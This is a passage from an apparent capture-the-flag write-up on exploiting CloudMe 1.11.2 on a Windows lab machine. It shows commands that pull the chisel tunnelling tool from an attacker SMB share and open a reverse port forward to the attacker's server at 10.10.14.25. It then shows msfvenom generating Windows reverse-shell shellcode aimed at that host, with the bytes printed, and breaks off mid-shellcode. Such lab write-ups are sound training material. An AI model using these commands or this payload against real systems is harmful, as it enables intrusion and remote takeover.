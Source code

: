    ```powershell
   PS C:\Users\Shaun\Downloads> cp \\10.10.14.25\share\chisel_windows.exe . 
   PS C:\Users\Shaun\Downloads> dir
   
       Directory: C:\Users\Shaun\Downloads
   
   
   Mode                LastWriteTime         Length Name                                                                  
   ----                -------------         ------ ----                                                                  
   -a----       18/07/2020     23:10        8347648 chisel_windows.exe                                                    
   -a----       16/06/2020     16:26       17830824 CloudMe_1112.exe
   ```

3. Make chisel client connect to our server and forward port

   In order to not loose our shell, we can run the server in the background using `Start-Process`.

   ```powershell
   PS C:\Users\Shaun\Downloads> Start-Process -NoNewWindow .\chisel_windows.exe -ArgumentList ("client 10.10.14.25:8000 R:8888:127.0.0.1:8888")
   2020/11/19 23:26:48 client: Connecting to ws://10.10.14.25:8000
   2020/11/19 23:26:48 client: Fingerprint a6:d6:ce:81:1d:c6:73:46:16:f8:ac:84:af:bb:9b:b3
   2020/11/19 23:26:49 client: Connected (Latency 95.7986ms)
   
   PS C:\Users\Shaun\Downloads>
   ```

We get a connection to our chisel server:

```bash
2020/11/20 00:26:45 server: proxy#1:R:0.0.0.0:8888=>127.0.0.1:8888: Listening
```

Now we can run the exploit.

### Manual exploitation

We can copy and modify the exploit script from [exploit-db](https://www.exploit-db.com/exploits/48389). However, after trying I decided to use [this exploit](https://www.exploit-db.com/exploits/44470) instead. We simply need to replace the shellcode.

```bash
root@darkness:~# msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.25 LPORT=443 -f c
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of c file: 1386 bytes
unsigned char buf[] = 
"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"
"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52"
"\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
"\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b"
"\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03"
"\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b"
"\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
"\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb"
"\x8d\x5d\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5f\x54\x68\x4c"
"\x77\x26\x07\xff\xd5\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68"
"\x29\x80\x6b\x00\xff\xd5\x50\x50\x50\x50\x40\x50\x40\x50\x68"
"\xea\x0f\xdf\xe0\xff\xd5\x97\x6a\x05\x68\x0a\x0a\x0e\x19\x68"
"\x02\x00\x01\xbb\x89\xe6\x6a\x10\x56\x57\x68\x99\xa5\x74\x61"
"\xff\xd5\x85\xc0\x74\x0c\xff\x4e\x08\x75\xec\x68\xf0\xb5\xa2"
"\x56\xff\xd5\x68\x63\x6d\x64\x00\x89\xe3\x57\x57\x57\x31\xf6"
```